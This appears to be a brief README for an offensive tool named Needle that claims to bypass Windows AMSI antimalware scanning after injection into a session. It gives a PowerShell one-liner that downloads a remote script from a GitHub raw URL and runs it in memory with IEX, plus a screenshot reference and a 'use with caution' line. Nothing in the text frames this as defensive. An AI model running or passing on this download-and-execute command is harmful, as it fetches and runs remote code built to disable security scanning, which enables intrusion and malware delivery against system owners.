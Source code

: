Greetings
----------

![alt text](<2024-06-26 11_37_40-Windows Sandbox.png>)

after inction in session run with : Needle

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/ELMERIKH/Needle/main/Needle.ps1')

USE WITH CAUTION 
-----------
